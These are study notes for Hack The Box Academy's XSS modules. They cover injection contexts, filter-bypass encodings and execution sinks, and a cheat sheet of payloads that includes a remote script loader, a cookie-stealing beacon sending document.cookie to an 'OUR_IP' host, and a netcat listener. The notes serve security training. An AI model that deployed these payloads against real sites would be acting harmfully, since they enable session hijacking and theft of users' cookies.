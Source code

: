 # XSS and CSRF
- [HTB Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/module/103/section/965)
- [HTB Advanced XSS and CSRF Exploitation Module](https://academy.hackthebox.com/module/235/section/2653)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)

# Notes
## Attacking and Exploiting Modern Web Applications (Kindle)
### Where is the output presenting itself?
Determine where your input is getting printed in the HTTP response we receive back:
- Inside the head or body: Easy, just use your regular HTML tags like `<script>alert(1)</script>` or load an external script `<script src=https://onofri.org/security/xss.js></script>.`
- If you are inside a comment, you have to escape out of the comment: `--><script>alert(1)</script>`
- Same applies to `<textarea>` - we have to escape it first with `</textarea><script>alert(1)</script>`
- If we are inside a HTMl attribute we can try terminate it right before our payload (vector). An attribute can be delimited by single or double quotes or whitespace. Then we close the tag and place our payload e.g `'><script>alert(1)</script>` or `"><script>alert(1)</script>`
- If we can't escape out of an attribute we might be able to abuse it itself: e.g if we are in a `href` or `src` attribute we can use it directly with: `javascript:alert(1)` but each attribute/element might behave a little differently. And `"onmouseover="alert(1)` or  `'onmouseover='alert(1)` are valid for most.
- If we're in JS code it depends where we are in the code, JS comments are `//`, it's line terminator is `;` and of course `'` + `"`
- Markdown XSS is a thing: `[xss[(javascript:alert('1'))`

### When is our input getting proces?
`<script>alert(1)</script>` is triggered on page load. However if our payload loads dynamically, such as `<img src=x onerror-alert(1)>`, this may be advantageous since onerror is triggered dynamically. Which means:
- Harder for security scanners to detect since the malicious code isn't present during initial page analysis :point_left:
- Can bypass some client-side filters that only check content on page load :point_left:
- Often involves content that gets injected into the DOM after the page has already loaded



## XSS Filter Bypasses
### Weak Blacklists
- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space: `<svg/onload=alert(1)>`

### JavaScript Encodings
- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

### String Creation
- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

### Execution Sinks:
- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`

---



---

# HTB Cheat Sheet
## XSS Payloads
| Code | Description |
|------|-------------|
| `<marquee>` | Basic XSS Payload |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Code | Description |
|------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80` | Start `PHP` server |
